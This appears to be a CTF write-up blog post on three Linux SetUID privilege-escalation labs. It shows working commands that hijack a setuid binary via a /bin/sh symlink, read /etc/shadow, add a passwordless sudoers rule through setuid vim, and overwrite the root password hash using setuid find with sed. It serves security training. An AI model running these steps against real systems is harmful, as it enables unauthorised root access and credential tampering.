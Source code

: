 ```yaml
---
layout: post
title: Linux Privilege Escalation - SetUID
description: Linux Privilege Escalation - SetUID
categories: [ctf, privesc, setuid]
tags: [ctf, privesc, setuid, attackdefense]
---
```


Today, I'll be tackling the three SetUID-based privilege escalation attacks currently on Pentester Academy's Attack/Defence CTF.

## Exploiting SetUID Programs
>Vulnerable setuid programs on Linux systems could lead to privilege escalation attacks. In this lab, you are provided a regular user account and need to escalate your privileges to become root. There are 2 programs in your home directory welcome and greetings which might be vulnerable. 
>Your mission:
>    Get as root shell on the system
>    View /etc/shadow
>Note: Development tools e.g. gcc is installed on the system already.

When we open our shell, we're greeted with two files, one of which is a SetUID binary, and the other is not readable by our user.
```
student@attackdefense:~$ ls -l
total 24
-r-x------ 1 root root 8296 Sep 22 21:24 greetings
-rwsr-xr-x 1 root root 8344 Sep 22 21:24 welcome
student@attackdefense:~$ file *
greetings: regular file, no read permission
welcome:   setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

Let's go ahead and run that binary and see what we get.
```
student@attackdefense:~$ ./welcome
Welcome to Attack Defense Labs
```

Seems like it's a pretty straightforward printout of a message, but how can we use this to escalate privileges? 

Omitted here is the half hour I spent scanning the entire filesystem for another SetUID binary to exploit. Eventually, though, I decided that clearly I was intended to use the binary in the home directory, so I should probably look more into it.

Where is that binary getting the message that it outputs? Is it static?
```
student@attackdefense:~$ strings welcome
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
greetings
...
```

The fact that the only imported functions appear to be _setuid_ and _system_, coupled with the fact that there is a string of the file _greetings_ that is marked as an executable likely means that _welcome_ is in fact just executing _greetings_.
At this point, I felt very silly. I had spent half an hour trying to make everything more hard than it was.

Knowing that our setuid program is just blindly executing _greetings_, I know that if I create a symlink to /bin/sh named greetings, then execute _welcome_ I should get a root shell. It is worth noting that this only works because I am the owner of the /home/student directory, allowing me to delete the existing _greetings_.

```
student@attackdefense:~$ rm /home/student/greetings
rm: remove write-protected regular file '/home/student/greetings'? y
student@attackdefense:~$ ln -s /bin/sh greetings
student@attackdefense:~$ ./welcome
# id
uid=0(root) gid=999(student) groups=999(student)
# head /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
```

We have now successfully escalated to a root shell.

## Exploiting SetUID Programs II
>As you've seen in another challenge in this category, setuid programs can provide great power and flexibility, but if not secured properly, can easily lead to a full system compromise. 
>Your mission is to get a root shell on the box!

As far as missions go, this one is straightforward: Get r00t. 

When we get into our shell, there's nothing in the home directory. As the name of the game is setuid, let's go ahead and enumerate all setuid programs. As an added bonus, we will throw in a CTF-ism, and only look for files with a modification date more recent than that of bash.

```
student@attackdefense:~$ find / -xdev -perm -4000 -newermm /bin/bash 2>/dev/null
/usr/bin/vim.tiny
/bin/mount
/bin/umount
```

Only one of those programs doesn't need root, so vim is likely our way in. Let's just give ourselves sudo access (with no password, because we don't know student's password).

I won't be pasting text for this one, because Vim takes up the whole screen and such.

_vim.tiny /etc/sudoers_

Add the following line: _%student ALL=(ALL) NOPASSWD:ALL_

Force write-quit using _:wq!_. Since we opened the file as root, it will save our changes despite the warnings about it being a read-only file.

Now, lets spawn us a root shell.
```
student@attackdefense:~$ sudo su
root@attackdefense:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Got r00t? Yes we do.

## Exploiting SetUID Programs III
>Sometimes an admin might create setuid permissions for a common program to run as root. This is done to allow regular users to perform a routine task. Unfortunately, even completely benign looking programs can be misused by an attacker. 
>Your mission is to get a root shell on the box!

As with before, we have no files in our home directory, so we will go ahead and enumerate setuid executables.

```
student@attackdefense:~$ find / -xdev -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/find
/usr/bin/newgrp
/usr/bin/chsh
/bin/mount
/bin/umount
/bin/su
```

_find_ is the only executable that is not always setuid, and for good reason. _find_ has a somewhat obscure option to execute arbitrary code for every file found. So, let's get us some r00t.

My favourite tactic, due to it's relative ease, is to replace the existing root password hash with _1234_, the hash for which being _$6$ZbvneNDSEXXO4pk1$DmvtdGOHZA8mbpVih5xtHrBcKk8VxZ0rXwLEK2M1iciGvM6qHXfuSY5YosPHj3Zv063JUX2p1TQqya4k1Azjx0_.

```
student@attackdefense:~$ find . -exec sed -Ei 's/^(root\:)\*(.*)/\1\$6\$ZbvneNDSEXXO4pk1\$DmvtdGOHZA8mbpVih5xtHrBcKk8VxZ0rXwLEK2M1iciGvM6qHXfuSY5YosPHj3Zv063JUX2p1TQqya4k1Azjx0\2/' /etc/shadow \;
student@attackdefense:~$ su
Password:
root@attackdefense:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Pwned.

## Conclusion
All in all, this was an interesting set of challenges. I definitely think that the first challenge was the hardest of all three, because a little bit of reverse engineering was needed. The second challenge was a setuid vulnerability I had not encountered before, but was straightforward enough. The third I had actually seen in a previous CTF somewhere, though I cannot recall where.

